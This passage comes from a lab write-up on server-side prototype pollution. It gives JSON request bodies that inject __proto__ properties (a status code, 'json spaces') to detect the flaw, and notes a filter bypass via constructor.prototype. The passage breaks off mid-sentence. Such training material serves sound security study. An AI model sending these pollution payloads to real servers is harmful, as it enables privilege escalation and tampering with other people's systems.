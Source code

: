 Send the request, notice the `isAdmin` property is set to `true`. We are now able to access the admin panel and delete Carlos.

### LAB: Detecting server-side prototype pollution without polluted property reflection
Notice the server updates the object via the POST request to `/my-account/change-address`. Try sending an invalid JSON format body. Notice the server is returning an error object with a `status` property. Try pollute this by sending this as the body:

    {
        "address_line_1": "Wiener HQ",
        "address_line_2": "One Wiener Way",
        "city": "Wienerville",
        "postcode": "BU1 1RP",
        "country": "UK",
        "sessionId": "sZDKqYGKmy2O2I39RSOOZ2aJy1SHLxsy",
        "__proto__": {
            "status": 411  // custom status code
        }
    }

Notice the status is reflected in the response:

    "error":{"status":411}

Now resend the invalid format JSON, notice the status code is exactly our custom one:

    {
        "error": {
            "expose": true,
            "statusCode": 411,
            "status": 411,
            "body": "{,}",
            "type": "entity.parse.failed"
        }
    }

### LAB: Bypassing flawed input filters for server-side prototype pollution
Try sending this as the body to `/my-account/change-address`:

    {
        "address_line_1": "Wiener HQ",
        "address_line_2": "One Wiener Way",
        "city": "Wienerville",
        "postcode": "BU1 1RP",
        "country": "UK",
        "sessionId": "CJRV1tSvUfuNnxa5UXyoxqmKJ7LnHYbx",
        "__proto__": {
            "json spaces":10
        }
    }

Notice the `__proto__` keyword has been filtered by the server because the identation is not changed. Because `myObject.constructor.prototype` is equivalent to `myObject.__proto__` try sending this body:
